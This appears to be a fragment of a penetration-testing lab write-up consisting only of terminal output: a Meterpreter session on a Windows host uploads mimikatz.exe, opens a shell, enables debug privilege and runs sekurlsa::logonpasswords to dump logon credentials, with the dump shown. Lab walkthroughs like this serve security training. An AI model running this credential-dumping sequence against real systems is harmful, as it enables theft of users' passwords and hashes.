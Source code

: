 ```
meterpreter > pwd
C:\Windows\system32
meterpreter > upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
[*] uploading  : /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
[*] Uploaded 1.25 MiB of 1.25 MiB (100.0%): /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
[*] uploaded   : /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
```

```
meterpreter > shell
Process 928 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.1457]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>.\mimikatz.exe
.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

```

```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 463357 (00000000:000711fd)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2/18/2023 9:25:31 AM
SID               : S-1-5-90-0-3
	msv :	
	tspkg :	
	wdigest :	
	 * Username : ATTACKDEFENSE$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 461745 (00000000:00070bb1)
Session           : Interactive from 3
User Name         : UMFD-3
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 2/18/2023 9:25:31 AM
SID               : S-1-5-96-0-3
	msv :	
	tspkg :	
	wdigest :	
	 * Username : ATTACKDEFENSE$
	 * Domain   : WORKGROUP
	 * Password : (null)
```